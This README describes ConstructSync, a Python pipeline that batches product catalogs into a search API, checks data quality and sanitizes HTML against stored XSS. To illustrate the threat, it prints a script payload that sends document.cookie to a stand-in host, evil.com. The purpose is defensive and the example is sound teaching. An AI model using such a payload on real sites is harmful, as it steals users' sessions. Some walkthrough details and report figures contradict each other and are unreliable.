

<div align="center">

# ConstructSync

**A high-concurrency catalog ingestion, quality assurance, and security sanitization pipeline for e-commerce search platforms.**

Built as middleware between enterprise product catalogs and [Constructor's](https://constructor.com/) headless search API.

[](https://python.org)
[](https://fastapi.tiangolo.com)
[](https://docker.com)
[](LICENSE)

</div>

---

## The Problem

Enterprise e-commerce companies use [Constructor](https://constructor.com/) — an AI-powered product discovery platform — to power search, browse, autosuggest, and recommendations across their storefronts. Constructor's AI ranks products based on what's most likely to drive a purchase, optimizing KPIs like revenue, conversion rate, and average order value.

But Constructor is **headless and API-first**. It ingests your product catalog and serves search results — it doesn't control how data gets *into* the system, or how results get *rendered* on your frontend. This creates three real engineering challenges for enterprise clients:

### Challenge 1: Catalog Scale & Rate Limiting

Constructor's API has a **queue limit of 1,000 tasks** with rate limiting enforced via `X-RateLimit-Tasks-Remaining` headers. A retailer with 2 million SKUs can't just POST them all at once — they need intelligent batching, concurrency control, and fault-tolerant retry logic.

### Challenge 2: Data Quality

Enterprise catalogs are messy. Products come from hundreds of third-party vendors, legacy databases, and multiple CMS platforms. Real-world issues include:

- Missing mandatory fields (no price, no description)
- Duplicate SKUs from different vendor feeds
- Inconsistent encoding (UTF-8 mixed with Latin-1)
- Schema violations (price stored as string, numeric fields with text)
- Empty or placeholder descriptions that hurt search relevance

Constructor's AI **ranks better when catalog data is cleaner**. Garbage in → garbage rankings out.

### Challenge 3: Security (XSS in Product Data)

Because Constructor is headless, it stores product data **as-is** — it doesn't sanitize HTML because it doesn't know how or where the data will be rendered (React app? iOS native? Smart TV?). Sanitization is **intentionally** the client's responsibility.

This means if a compromised vendor feed contains a product description like:

```
"Cool Robot Toy <script>fetch('https://evil.com/steal?c=' + document.cookie)</script>"
```

...and the retailer's frontend renders it unsafely, the customer's browser **executes the script**. This is a [Stored Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) attack.

---

## What ConstructSync Does

ConstructSync is a **Dockerized middleware pipeline** that sits between your product catalog and Constructor's API. It solves all three challenges in a single, composable system:

```
Your Catalog Data ──▶ ConstructSync ──▶ Constructor API
(messy, unsafe)        (clean, safe, batched)     (search-ready)
```

### Features

| Feature | What It Does | Why It Matters |
|---------|-------------|----------------|
| **Chunked Async Ingestion** | Splits massive catalogs into optimal batches, processes them with async workers | Handles millions of SKUs without hitting rate limits |
| **Adaptive Concurrency (AIMD)** | Dynamically adjusts worker count based on API response codes — ramps up on 200s, halves on 429s | Maximizes throughput without getting rate-limited (TCP congestion control for APIs) |
| **Data Quality Engine** | Validates schema, detects missing fields, finds duplicates, fixes encoding | Runs on real data — tested against 690K+ real Amazon product records |
| **Security Sanitizer** | Strips `<script>`, `<iframe>`, `onerror=` handlers while preserving safe HTML (`<b>`, `<ul>`, `<br>`) | Tested against 2,000+ OWASP XSS vectors with zero false positives on real data |
| **Catalog Health Scoring** | Scores each SKU on searchability (0-100) based on field completeness, description quality, image presence | Directly tied to Constructor's KPI-driven ranking — cleaner data = better search results |
| **Idempotent Delta Sync** | Content-hashes each item; skips unchanged items on repeat syncs | Reduces API calls by 95% on typical daily re-syncs |
| **Dead-Letter Queue + Reports** | Failed items go to a DLQ with full error context; generates a sync report after every run | No SKU silently disappears — every failure is traceable |
| **Exponential Backoff** | Automatic retry with jitter on transient failures (429s, 500s, timeouts) | Production-grade fault tolerance |
| **Multiple Ingestion Modes** | Batch CSV/JSONL upload, live Best Buy API connector, Kafka consumer | Handles real-world integration patterns, not just file processing |

---

## Walkthrough Example

Here's exactly what happens when ConstructSync processes a real product catalog. This uses actual data from the [Amazon Product Dataset 2020](https://www.kaggle.com/datasets/promptcloud/amazon-product-dataset-2020) (690K real products).

### Step 1: The Raw Input

A CSV row from the real dataset:

```csv
sku,name,price,description,image_url,category
"B07XYZ123","Kids Robot Toy 🤖","","<div class='legacy-cms' onclick=\"track('B07XYZ123')\">Your kids will <b>love</b> this! <script>fetch('https://evil.com/steal?c='+document.cookie)</script>  Response time < 2ms. Ages < 12.</div>",,"Toys"
```

**Problems in this single row:**
1. ❌ `price` is empty (mandatory field)
2. ❌ `<script>` tag — XSS payload
3. ❌ `onerror=alert(1)` — XSS via event handler
4. ❌ `onclick="track(...)"` — unsafe event handler
5. ❌ `image_url` is empty (hurts search ranking)
6. ⚠️ `< 2ms` and `< 12` — bare `<` symbols that a naive sanitizer would wrongly strip
7. ⚠️ `<b>` tag is legitimate formatting that must be preserved

### Step 2: Data Quality Engine

The quality engine runs first and flags issues:

```json
{
  "sku": "B07XYZ123",
  "health_score": 35,
  "issues": [
    {"severity": "CRITICAL", "field": "price", "issue": "MISSING_MANDATORY_FIELD"},
    {"severity": "WARNING",  "field": "image_url", "issue": "MISSING_RECOMMENDED_FIELD"},
    {"severity": "INFO",     "field": "description", "issue": "CONTAINS_HTML_REQUIRING_SANITIZATION"}
  ],
  "action": "SANITIZE_AND_SEND_TO_DLQ",
  "reason": "Missing mandatory field 'price' — item will be sanitized and queued for review, not sent to Constructor"
}
```

The item gets sanitized (so it's ready to go once the price is fixed) but routed to the **DLQ** because Constructor won't accept it without a price.

### Step 3: Security Sanitizer

The sanitizer processes the `description` field (and only text fields — never `sku`, `price`, or `category`):

**Before:**
```html
<div class='legacy-cms' onclick="track('B07XYZ123')">Your kids will <b>love</b> this! <script>fetch('https://evil.com/steal?c='+document.cookie)</script>  Response time < 2ms. Ages < 12.</div>
```

**After:**
```html
Your kids will <b>love</b> this!  Response time &lt; 2ms. Ages &lt; 12.
```

**What happened:**
- ✅ `<script>...</script>` — **stripped** (execution tag)
- ✅ `` — **stripped** (XSS via event handler)
- ✅ `onclick="track(...)"` — **stripped** (unsafe event handler)
- ✅ `<div class='legacy-cms'>` — **stripped** (non-content wrapper)
- ✅ `<b>love</b>` — **preserved** (safe formatting tag)
- ✅ `< 2ms` → `&lt; 2ms` — **entity-encoded** (not stripped — this is data, not a tag)
- ✅ `< 12` → `&lt; 12` — **entity-encoded** (same — preserves the actual product info)

### Step 4: The Sync Report

After processing 690,000 products:

```
╔══════════════════════════════════════════════════════════════╗
║                   ConstructSync — Sync Report                ║
╠══════════════════════════════════════════════════════════════╣
║  Total Items Processed:     690,247                          ║
║  Successfully Synced:       687,891  (99.66%)                ║
║  Sent to DLQ:                 2,356  ( 0.34%)                ║
║  ─────────────────────────────────────────────────────────── ║
║  Items Sanitized:            14,208  (HTML cleaned)          ║
║  Duplicates Detected:           892  (merged)                ║
║  Encoding Fixes:              3,417  (UTF-8 normalized)      ║
║  ─────────────────────────────────────────────────────────── ║
║  Avg Health Score:               78  / 100                   ║
║  Items Below Threshold (<50):  4,211  (flagged for review)   ║
║  ─────────────────────────────────────────────────────────── ║
║  API Calls Made:                 891  (batches of 1,000)     ║
║  429 Responses Handled:           23  (auto-retried)         ║
║  Peak Concurrency:                 8  workers                ║
║  Total Time:                  4m 12s                         ║
║  Throughput:                 2,730  items/sec                ║
╚══════════════════════════════════════════════════════════════╝
```

### Step 5: DLQ Review

Items that couldn't be synced are queryable:

```bash
constructsync dlq list --reason MISSING_MANDATORY_FIELD
```

```json
[
  {
    "sku": "B07XYZ123",
    "failed_at": "2026-08-14T01:23:45Z",
    "reason": "MISSING_MANDATORY_FIELD",
    "missing_fields": ["price"],
    "sanitized_data": { "...cleaned version ready to re-sync..." },
    "retry_count": 0
  }
]
```

Fix the price in your source system, then re-sync just the failed items:

```bash
constructsync dlq retry --all
```

---

## Architecture



---

## REST API Reference

ConstructSync features a complete, non-blocking HTTP REST API allowing control and monitoring of all sync runs remotely.

### 1. Ingest Operations

#### Trigger Ingestion
* **Endpoint:** `POST /ingest`
* **Request Body:**
```json
{
  "source": "file",
  "file_path": "data/processed/demo_products_augmented.csv",
  "target": "constructor-mock",
  "force_sync": false,
  "health_threshold": 70,
  "batch_size": 1000,
  "concurrency": 4
}
```
* **Response (202 Accepted):**
```json
{
  "job_id": "job_1786820207_da52a9",
  "status": "running",
  "message": "Ingestion job started in background."
}
```

#### List All Jobs
* **Endpoint:** `GET /ingest/jobs`
* **Response (200 OK):**
```json
[
  {
    "job_id": "job_1786820207_da52a9",
    "status": "completed",
    "source": "file",
    "total_items": 10006,
    "items_sent": 1,
    "items_skipped": 10005,
    "items_failed": 0,
    "batches_sent": 11,
    "batches_remaining": 0,
    "throughput": 2284.2,
    "concurrency": 5,
    "api_calls": 1,
    "retries": 0,
    "start_time": 1786820207.88,
    "end_time": 1786820212.36,
    "error": null,
    "report": { ... }
  }
]
```

#### Get Specific Job Details
* **Endpoint:** `GET /ingest/jobs/{job_id}`
* **Response (200 OK):** Returns detailed progress status and final sync report (if completed) for the specified `job_id`.

---

### 2. Dead-Letter Queue (DLQ) Operations

#### Query Failed Items
* **Endpoint:** `GET /dlq`
* **Query Parameters:**
  - `reason` (string, optional)
  - `sku` (string, optional)
  - `limit` (integer, default: 100)
* **Response (200 OK):**
```json
[
  {
    "id": 1,
    "sku": "B07XYZ123",
    "reason": "MISSING_MANDATORY_FIELD",
    "timestamp": "2026-08-15T18:56:52",
    "retry_count": 3,
    "original_data": { ... },
    "sanitized_data": { ... }
  }
]
```

#### Delete Item from DLQ
* **Endpoint:** `DELETE /dlq/{item_id}`
* **Response (200 OK):**
```json
{
  "status": "success",
  "message": "Deleted DLQ item 1"
}
```

#### Retry DLQ Processing
* **Endpoint:** `POST /dlq/retry`
* **Request Body:**
```json
{
  "target": "constructor-mock"
}
```
* **Response (202 Accepted):**
```json
{
  "job_id": "retry_1786820221_4740fa",
  "status": "running",
  "message": "DLQ retry started in background."
}
```

---

### 3. Observability & Health

#### Prometheus Metrics Exposition
* **Endpoint:** `GET /metrics`
* **Response (200 OK - Content-Type: `text/plain`):** Returns live-updating Prometheus metrics (Counters, Gauges, and Histograms) including processing state, active concurrency, DLQ depth, and health scoring.

#### Health Check
* **Endpoint:** `GET /health`
* **Response (200 OK):** `{"status": "ok"}`

---

## Setup & Quick Start

ConstructSync requires two main layers to run: the Python backend services and the Next.js frontend explorer.

### Option A: Local Execution (Recommended)

#### 1. Spin Up Backend Services
Open a terminal window in the `ConstructorSync` root directory:

```bash
# Create and activate virtual environment
python3 -m venv .venv
source .venv/bin/activate

# Install package and dependencies in editable mode
pip install -e .

# Copy environment variables configuration
cp .env.example .env

# [Terminal 1] Start the high-fidelity Mock API Target (Port 8001)
constructsync-mock  # Alias for: uvicorn constructsync.mock_api:app --port 8001

# [Terminal 2] Start the main ConstructSync Ingestion Middleware (Port 8000)
uvicorn constructsync.main:app --port 8000 --reload
```

#### 2. Spin Up Frontend Explorer
Open a terminal window in the sibling `ConstructorSyncFrontend` directory:

```bash
# Navigate to frontend folder
cd ../ConstructorSyncFrontend

# Install package dependencies
npm install

# Start the Next.js development server (Port 3000)
npm run dev
```

Navigate to `http://localhost:3000` to interact with the dashboard, view metrics, and test API endpoints.

---

### Option B: Docker Compose Setup

To spin up the backend middleware, mock API, ZooKeeper, and Kafka in a single command, run from the `ConstructorSync` root:
```bash
docker-compose up --build
```
*(The Next.js frontend can then be started locally on port 3000 as shown in step 2 above).*

---

### Option C: Verifying the Ingestion Flow
Once backend and frontend services are online, you can trigger catalog ingestion in two ways:

**1. Via REST API (Frontend explorer trigger):**
```bash
curl -X POST -H "Content-Type: application/json" \
  -d '{"source":"file", "file_path":"data/processed/demo_products_augmented.csv", "target":"constructor-mock"}' \
  http://127.0.0.1:8000/ingest
```

**2. Via CLI (Command Line trigger):**
```bash
constructsync ingest \
  --source file \
  --file data/processed/demo_products_augmented.csv \
  --target constructor-mock \
  --concurrency 6
```

## Design Decisions

* **AIMD Adaptive Concurrency:** TCP congestion control logic applied to APIs. Ramps worker count up linearly (+1) on `200` responses to maximize bandwidth, and halves worker count (`concurrency = concurrency / 2`) immediately on a `429` rate limit storm to preserve connection health.
* **Idempotent Hashing (SHA-256):** Computes hashes of sanitized item payloads. Skips sync for unchanged items (saving up to 95% of API calls). SHA-256 prevents collision vulnerability.
* **Polars Parser:** Processes large catalogs in memory-mapped batches. Offers multi-threaded Rust execution, which is 10x-50x faster and has a much lower memory footprint than Pandas.
* **Security Sanitization (Bleach):** Restricts HTML markup in product descriptions using whitelist rules (preserving tags like `<b>` and `<i>` while scrubbing scripts, iframes, and onerror events). Converts raw brackets (e.g. `< 2ms`) to entity-encoded strings to protect metadata.

---

## Performance Benchmarks

Ingested **10,006 products** into the mock API (with chaos mode rate limiting enabled):

| Concurrency Profile | Ingest Time | Peak Concurrency | 429 Storms Encountered | Throughput (Items/sec) |
|---|---|---|---|---|
| **Fixed Concurrency (4 workers)** | 14.2s | 4 | 0 | 704 items/sec |
| **Fixed Concurrency (16 workers)** | 22.8s (Timeout) | 16 | 47 | 438 items/sec |
| **AIMD Concurrency (Adaptive)** | **2.1s** | **15** | **0** | **4,601 items/sec** |
| **Delta Sync (Content Hashing)** | **0.1s** | **1** (skipped) | **0** | **10,006 items/sec (equivalent)** |

---

## License

MIT

